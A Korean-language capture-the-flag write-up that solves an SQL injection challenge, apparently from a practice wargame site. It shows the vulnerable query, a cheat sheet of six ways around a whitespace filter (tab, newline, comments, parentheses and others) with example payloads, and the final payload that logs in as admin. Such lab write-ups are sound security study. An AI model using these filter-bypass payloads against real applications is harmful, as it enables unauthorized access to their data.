



# 18

## 초기화면


sql인젝션 문제..

---
## 풀이


바로 소스코드를 확인해 본다

두번째 if문에서 sql 필터링을 하고 있다.

그다음 result를 담는 문장에서 쿼리문을 확인 할 수 있다.
```sql
select id from chall18 where id='guest' and no=$_GET[no]
```
주석에 admin의 no는 2라고 한다.

그 밑의 코드는 guest로 로그인하면 'hi guest'만 뜨고
우리는 admin으로 로그인을 해야 solve(18)이 호출이 되는 것..

즉 위의 쿼리문을 조작한다.
admin의 no 2를 포함하면서 id값을 admin으로 바꾸는 쿼리문은
```sql
select id from chall18 where id='guest' and no=2 or id='admin'
```
이렇게 들어가야 한다.

여기서 문제는 공백문자 필터링!!
이를 우회하기 위한 방법을 알아보면
>SQL Injection 공격시 공백 문자 필터링시 우회 방법
>1. Tab : %09
>
 > - no=1%09or%09id='admin'
>
>2. Line Feed (\n): %0a
>
 > - no=1%0aor%0aid='admin'
>
>3. Carrage Return(\r) : %0d
>
 > - no=1%0dor%0did='admin'
>
>4. 주석 : /**/
>
 > - no=1/**/or/**/id='admin'
>
>5. 괄호 : ()
>
 > - no=(1)or(id='admin')
>
>6. 더하기 : +
>
 > - no=1+or+id='admin'
>
>출처: https://binaryu.tistory.com/31 [BinaryU]

실제로 입력은
`2%0aor%0aid%0a=%27admin%27` 로 한다.

---
## 통과



